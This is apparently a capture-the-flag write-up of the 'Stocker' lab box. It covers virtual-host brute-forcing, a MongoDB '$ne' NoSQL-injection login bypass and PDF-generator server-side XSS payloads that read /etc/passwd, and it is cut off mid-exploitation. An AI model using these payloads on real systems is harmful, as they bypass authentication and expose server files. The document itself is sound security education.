 # Stocker

## Summary

## General Enumeration
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 19:09 CEST
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.46s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.17 seconds
```
We know that there are 2 services open: SSH service on port 22 and an HTTP server on the default port 80. We can check out the webb server, so we add the IP address to the /etc/hosts file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
```
We can now access the web server on the browser using its domain or the IP address.

We notice that there is no real functionality we can exploit, so there must be something hidden.
We can guess that there might be a different part of the site on a specific subdomain: this technique is called `VHOST` (Virtual Host) which refers to the practice of running more than one website on a single machine, using subdomains like `a.example.com` and `b.example.com`.
In this case it will be a Name-based Virtual Host because the websites are hosted on the same IP, the webserver can differentiate to which website it has to send incoming requests through the HTTP `Host` header, which could be `example.com` or `a.example.com`.
So we can try to bruteforce using the top used subdomains to find an hidden website.
We can write our own tool: we just have to make a GET request to `http://(subdomain).stocker.htb`, getting the subdomain from a wordlist and checking the status code of the response.

Little tip: if you want to write your own script be aware that the website automatically redirects you to the main website giving the status code `301` when handling 404 pages, some libraries, like the nodejs `request`, will follow the redirect by default, which means that the response you receive will be the response from the redirected URL, not the original URL, giving the status code `200` even for wrong subdomains.

A good tool we can use to do that is [GoBuster](https://github.com/OJ/gobuster), which allow us, over a lot of other things, to search for working subdomains of a website, going over a wordlist, implementing the script which i mentioned above.
You can get the wordlist from the GitHub repository [SecLists](https://github.com/danielmiessler/SecLists).
Using GoBuster: `gobuster vhost -k --domain stocker.htb --append-domain -u http://10.10.11.196 -w ~/Wordlists/subdomains.txt`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.10.11.196
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /home/vecio/Wordlists/subdomains-11m.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/28 19:35:53 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```
We quite easly find the subdomain `dev` which redirects us to the `/login` route.
Let's add the new domain to the `/etc/hosts` file and see if we can find something to exploit in the `/login` route.
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.196	stocker.htb
10.10.11.196	dev.stocker.htb
```

Testing the new page, we find only a login form, which makes a POST request to the `/login` route with the data `username=admin&password=admin` being sent. If the request fails, as in this case, we get a login error.
We can assume that there could be some sort of database used that could be vulnerable to an injection.
We can find out using [Wappalyzer](https://www.wappalyzer.com/) that it is using the JS `Express` framework, so probably it is using a `NoSQL` database and this form may be vulnerable to a NoSQL Injection.

## Login Exploiting
Searching on the internet we can find this [cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/) and start testing, using BurpSuite, some common payloads to search for unwanted behaviour.
Since we know that it is using a NoSQL database, we want to test using JSON to format the data in the POST request, so we can change the request header `Content-Type` to be `application/json` and format the payload as JSON: `{"username":"admin", "password":"admin"}`.
We can now start testing some keywords and find that we can inject MongoDB `$ne` operator, so we can craft the following payload to bypass the authentication: `{"username": {"$ne":0}, "password": {"$ne":0}}` and get redirected to `/stock`.
The `$ne` operator stads for `not equal`, so we're passing a query where we ask for a user which username's not equal to 0 and password not equal to 0, this would end up in a success login and we get redirected logged in as an authenticated user.

Let's learn why this vulnerability is possible: looking at the source code of the website (which you can get after getting access to the server) we can find the method which manages the `/login` endpoint:
```js
app.post("/login", async (req, res) => {
  const { username, password } = req.body;

  if (!username || !password) return res.redirect("/login?error=login-error");

  // TODO: Implement hashing

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

  console.log(req.session);

  return res.redirect("/stock");
});
```
We can see that the server is getting the `username` and the `password` from the body of the request and passes those values to the mongodb `findOne()` method, without sanitizing them, which returns a document based on the queries that are passed, in this case username and password.
By injecting an object the query would become `findOne({ username: {$ne: 0}, password: ${$ne: 0} })` so it returns a user which username and password are not set to 0.

## Stock Enumeration
After we have successfully bypassed the authentication page we get redirected to the `/stock` route.
This page lets us add some items to a cart and proceed with the payment, which generates a check in pdf form.
The payment is done using a POST request to the endpoint `/api/order` with a json formatted body indluding a list of items that have been put in the cart, the response of the request includes an `orderId` which is used to create the route to view the pdf check `/api/po/64233a99566440aab8d5c56b`.
We can download the pdf file and use `Exiftool` to analyze it and find out that it is made using `Skia/PDF m108`.
Trying to edit the post request we can see that we can change the content of some fields and the result will be displayed in the pdf file, we can for example edit the `title` field of an item in the list and see that we get the edited title in the pdf result.
Doing a bit of research on the internet we find a [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) attack.
If a web page is creating a PDF using user controlled input, you can try to trick the bot that is creating the PDF into executing arbitrary JS code.
So, if the PDF creator bot finds some kind of HTML tags, it is going to interpret them, and you can abuse this behaviour to cause a Server XSS.

## Stock Exploitation
We can try to inject some payloads into the `title` field to see if the website is vulnerable.
If we inject this payload `<iframe src=file:///etc/passwd></iframe>` we can see in the returned pdf file the contents of the `/etc/passwd` file and find out the name of the user `angoose`.
Note that if the frame is too small to read the entire file, you can add some in-line css styling to make the frame bigger.
If can find the path of the project by injecting the following payload `<script> document.write(window.location) </script>` which returns `file:///var/www/dev/pos/64233e83a8e0cb4c2d3cfb83.html` we can now try to find the main file in the project subdirectories.
